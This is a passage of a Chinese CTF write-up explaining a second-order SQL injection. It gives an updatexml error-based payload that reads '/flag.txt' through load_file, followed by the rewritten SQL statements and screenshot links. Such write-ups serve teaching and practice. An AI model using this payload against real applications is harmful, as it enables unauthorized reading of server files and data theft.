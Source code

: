 接下来就是如何构造第一次注入的sql语句，从而能让他在我们第二次注入时发挥作用。  

payload如下：  

	1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
	注意这里通过LOAD_FILE()函数将文件内容读取成字符串，是一个小知识点。

我们首先进行第一次的提交，在地址一栏输入payload。  

[![](https://pic.imgdb.cn/item/60f048245132923bf8dd6ff2.png)](https://pic.imgdb.cn/item/60f048245132923bf8dd6ff2.png)  

毫无疑问，这样是可以提交成功的，那么我们的address变量就变成了，我们输入的payload，接着我们进行修改地址的操作。  

[![](https://pic.imgdb.cn/item/60f04aa55132923bf8f4575a.png)](https://pic.imgdb.cn/item/60f04aa55132923bf8f4575a.png)

也就是把payload再输入一边，那么我们最后执行修改的sql的语句就变成了
	
	$sql = "update `user` set `address`='1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#', `old_address`='1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#' where `user_id`=".$row['user_id'];

我们可以看到语句中的old_address就是我们第一次的地址，而我们payload的结尾的#符号是注释符，会将后面的sql语句注释掉，所以说执行的sql语句是这样的：  

	$sql = "update `user` set `address`='1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1), `old_address`='1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)

这样就完成了第二次的注入，去掉了原本sql语句中的

	 where `user_id`=".$row['user_id'];  

这一sql语句，从而使查询报错，得到了flag。  

[![](https://pic.imgdb.cn/item/60f04ebe5132923bf817ff3d.png)](https://pic.imgdb.cn/item/60f04ebe5132923bf817ff3d.png)  

接下来再读取右半段flag即可。   

# 小结  

对于二次注入多出现在可以修改信息的题目中，可以通过源码观察第一次注入的过程中是否对输入的信息进行转义并存入数据库中，而且并没有对对二次注入的信息进行修改。如果发现这样的sql语句，就可以开始思考sql二次注入。  

同时。二次注入的重点在于如何构造恶意语句和了解sql语句的如何写成，针对来写恶意语句。